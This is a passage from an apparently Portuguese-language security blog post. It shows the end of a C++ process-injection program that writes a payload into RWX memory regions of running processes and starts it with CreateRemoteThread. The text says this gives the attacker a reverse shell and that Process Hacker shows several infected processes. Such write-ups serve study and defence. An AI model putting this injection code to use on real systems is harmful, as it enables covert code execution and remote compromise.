 ```cpp
                    WriteProcessMemory(ph, mem.BaseAddress, payload, sizeof(payload), NULL);
                    CreateRemoteThread(ph, NULL, NULL, (LPTHREAD_START_ROUTINE)mem.BaseAddress, NULL, NULL, NULL);
                    break;
                }
            }
            baseAddress = 0;
        }
        proc = Process32Next(hSnapshot, &pe32);
    }
    CloseHandle(hSnapshot);
    CloseHandle(ph);
    return 0;
}
```

Após a compilação, quando executamos o programa, temos o *reverse shell* na máquina atacante.

![](/img/posts/Pasted%20image%2020240809083025.png)

Agora, com um olhar mais analítico, uma vez que fazemos um *loop* nos processos e procuramos todos os espaços com permissão RWX e injetamos o *payload*, podemos olhar no *Process Hacker* que o *exploit* foi executado em mais de um processo.

![](/img/posts/Pasted%20image%2020240809083240.png)
